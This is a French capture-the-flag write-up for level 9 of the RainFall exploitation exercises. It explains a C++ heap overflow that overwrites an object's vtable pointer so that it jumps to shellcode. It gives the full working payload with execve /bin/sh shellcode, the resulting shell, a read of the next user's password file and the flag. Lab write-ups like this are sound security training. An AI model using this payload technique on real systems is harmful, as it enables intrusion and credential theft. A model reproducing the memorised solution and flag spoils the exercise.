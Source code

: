 Donc obj2 se trouve en mémoire juste après obj1.

## Construction de l'exploit

### Stratégie
Ce qu'on va faire c'est écraser l'adresse de la vtable de obj2 par du shell code que l'on place dans la variable annotation de obj1.

Pour ça on donne à `0x804a00c` l'adresse de l'octet d'après qui est : `0x804a00c + 4 = 0x804a010` et on donnera comme pointeur à vtable de obj2 `0x804a00c` pour qu'il exécute le code contenu dans la string annotation.

### Structure du payload
Donc on se retrouve avec ce payload :

```
0x804a010 + shellcode + padding + 0x804a00c
```

### Calcul du padding
La taille de `0x804a010 + shellcode + padding` doit faire 108 de long pour que `0x804a00c` écrase l'adresse de vtable de obj2.

Donc on fait : `108 - 4 (0x804a010) - 21 (taille du shell code) = 83`

## Exploitation finale

### Payload complet
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"')
```

### Résultat
```bash
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Résultats

### Flag obtenu
```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

### Accès niveau suivant
- **Utilisateur** : `bonus0`
- **Prochain challenge** : `/home/user/bonus0/`

